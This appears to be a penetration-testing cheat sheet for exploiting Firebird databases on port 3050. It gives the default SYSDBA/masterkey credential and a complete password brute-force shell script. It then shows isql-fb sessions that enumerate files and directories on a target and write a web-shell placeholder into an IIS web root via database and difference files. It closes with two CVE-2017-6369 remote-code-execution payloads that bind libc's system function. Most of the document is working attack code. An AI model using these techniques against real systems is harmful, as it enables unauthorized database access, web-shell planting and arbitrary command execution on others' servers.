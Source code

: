 ## TCP 3050 firebird

### Firebird CLI tools

```
sudo apt install firebird3.0-utils
```
### Firebird GUI Database Browser
```
sudo apt install firerobin
```

### Default Credentials
```
SYSDBA/masterkey
```

### Firebird Bruteforce

*Script Source:* https://github.com/InfosecMatter/Scripts/blob/master/firebird-bruteforce.sh
```
#!/bin/bash
# contact@infosecmatter.com

host="$1"
user="$2"
wordlist="$3"

if [ ! -f "${wordlist}" ] || [ -z "${user}" ]; then
  echo "usage: `basename $0` <IP> <username> <wordlist.txt>"
  exit 1
fi

echo "`date`: FireBird login attack on ${host} against ${user} user using ${wordlist} wordlist"

tr -d '\r' <"${wordlist}" | while read pwd; do
  echo "`date`: Trying ${pwd}"

  echo "CONNECT '${host}/3050:a' user '${user}' password '${pwd}';" | isql-fb -q 2>&1 | \
  grep -q "The system cannot find the file specified." && {
    echo "Password for user ${user} is: ${pwd}"
    exit 0
  }
done
```
**Command**
```
firebird_bruteforce.sh <IP> SYSDBA <path/to/wordlist>
```

### File Enumeration
```
root@kali:~# isql-fb
SQL> create database '10.1.10.101/3050:C:\psplog.txt' user 'SYSDBA' password 'masterkey';

Statement failed, SQLSTATE = 08001
I/O error during "CreateFile (create)" operation for file "C:\PSPLOG.TXT"
-Error while trying to create file
-The file exists.
```
### Directory Enumeration
```
root@kali:~# isql-fb
SQL> create database '10.1.10.101/3050:C:\inetpub' user 'SYSDBA' password 'masterkey';

Statement failed, SQLSTATE = 08001
I/O error during "CreateFile (create)" operation for file "C:\INETPUB"
-Error while trying to create file
-Access is denied. 
```

### Creating a file
```
root@kali:~# isql-fb
SQL> CREATE DATABASE '10.1.10.101/3050:C:\inetpub\wwwroot\mytest.asp' user 'SYSDBA' password 'masterkey';
SQL> CREATE TABLE a ( x BLOB);
SQL> INSERT INTO a VALUES ('<ASP/JSP/PHP shell>');
SQL> COMMIT;
SQL> EXIT;
```

### Deleteing a file
``` 
SQL> drop database;
```
### Data Types
Tables can be created in external files without garbage characters. Try the blob and char types to see if they are allowed.

#### Blob Data type
```
root@kali:~# isql-fb
SQL> CREATE DATABASE '10.1.10.101/3050:C:\non-existent-file' user 'SYSDBA' password 'masterkey';
SQL> CREATE TABLE a EXTERNAL 'C:\inetpub\wwwroot\mytest.asp' ( x blob);

Statement failed, SQLSTATE = HY004
unsuccessful metadata update
-CREATE TABLE A failed
-SQL error code = -607
-Invalid command
-Data type BLOB is not supported for EXTERNAL TABLES. Relation 'A', field 'X'
```
#### Char Data type
```
root@kali:~# isql-fb
SQL> CREATE DATABASE '10.1.10.101/3050:C:\non-existent-file' user 'SYSDBA' password 'masterkey';
SQL> CREATE TABLE a EXTERNAL 'C:\inetpub\wwwroot\mytest.asp' ( x char(2000));
SQL> 
SQL> INSERT INTO a values ('<%= date() %>');

Statement failed, SQLSTATE = 28000
Use of external file at location C:\inetpub\wwwroot\mytest.asp is not allowed by server configuration
```

### Difference Files
```
root@kali:~# isql-fb
SQL> CREATE DATABASE '10.1.10.101/3050:C:\non-existent-file' user 'SYSDBA' password 'masterkey';
SQL> CREATE TABLE a( x blob);
SQL> ALTER DATABASE ADD DIFFERENCE FILE 'C:\inetpub\wwwroot\mytest.asp';
SQL> ALTER DATABASE BEGIN BACKUP;
SQL> INSERT INTO a VALUES ('<ASP/JSP/PHP shell>');
SQL> COMMIT;
SQL> EXIT;
```

### CVE-2017-6369

#### RCE
```
SQL> DECLARE EXTERNAL FUNCTION exec cstring(4096) RETURNS cstring(4096) ENTRY_POINT 'system' MODULE_NAME '/lib/libc.so';

SQL> SELECT FIRST 1 exec('<COMMAND>') FROM any_table LIMIT 1;

```
#### RCE #2
```
SQL> DECLARE EXTERNAL FUNCTION exec cstring(4096) RETURNS integer BY VALUE ENTRY_POINT 'system' MODULE_NAME 'fbudf';

SQL> SELECT FIRST 1 exec('<COMMAND>') FROM any_table LIMIT 1;
```
  
## Additional References
 https://www.infosecmatter.com/firebird-database-exploitation/
